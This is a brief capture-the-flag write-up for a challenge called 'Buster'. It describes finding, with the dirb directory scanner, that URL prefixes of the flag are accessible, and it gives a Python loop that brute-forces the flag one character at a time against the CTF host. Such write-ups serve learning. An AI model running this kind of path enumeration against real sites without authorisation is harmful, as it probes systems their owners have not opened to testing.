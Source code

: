 # Buster

Through `dirb` tool, find that if the url is a prefix of the flag, it can be accessed:

```
/f
/fla
/flag
...
```

So write a program to probe each character in the range of `[a-f0-9]` to find the flag:

```python
import requests

url = "https://buster.ctf.zone/flag{"
while True:
    print(url)
    for suffix in ["a", "b", "c", "d", "e", "f", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "}"]:
        next_url = url + suffix
        response = requests.get(next_url)
        print(next_url)
        if "Wrong way!" not in response.text:
            url = next_url
            break
```

Solved!
